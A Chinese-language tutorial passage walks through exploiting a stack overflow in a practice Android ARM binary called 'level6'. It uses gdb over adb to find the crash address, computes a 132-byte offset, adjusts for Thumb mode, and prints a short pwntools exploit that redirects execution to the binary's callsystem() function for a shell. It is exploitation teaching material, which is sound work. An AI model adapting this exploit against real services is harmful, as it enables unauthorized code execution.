 我们先在电脑上运行python脚本：

```
[pc]$ python test.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
…

```

然后在adb shell中用ps获取level6的pid，然后再挂载level6，然后用c继续：

```
[adb]# ./gdb --pid=4895

GNU gdb 6.7
Copyright (C) 2007 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
……
Loaded symbols for /system/lib/libm.so
0xb6eff268 in read () from /system/lib/libc.so
(gdb) c
Continuing.

```

然后我们再在电脑上输入回车，让脚本发送数据。然后我们就能够在gdb里看到崩溃的pc的值了：

```
Program received signal SIGSEGV, Segmentation fault.
0x41346540 in ?? ()
(gdb) 

```

因为我们编译的level6默认是thumb模式，所以我们要在这个崩溃的地址上加个1：`0x41346540+1 = 0x41346541`。然后用pattern.py计算一下溢出点的位置：

```
$ python pattern.py offset 0x41346541
hex pattern decoded as: Ae4A
132

```

OK，我们知道了溢出点的位置，接下来我们找一下返回的地址。其实利用的代码在程序中已经有了。我们只要将pc指向callsystem()这个函数地址即可。我们在ida中可以看到地址为`0x00008554`：

![p1](http://drops.javaweb.org/uploads/images/6fef4d8b9b61233d6992a5c1dea4a29e60eed99c.jpg)

因为`callsystem()`被编译成了thumb指令，所以我们需要将地址+1，让pc知道这里的代码为thumb指令，最终exp如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

callsystemaddr = 0x00008554 + 1
payload =  'A'*132 + p32(callsystemaddr)

p.send(payload)

p.interactive()

```
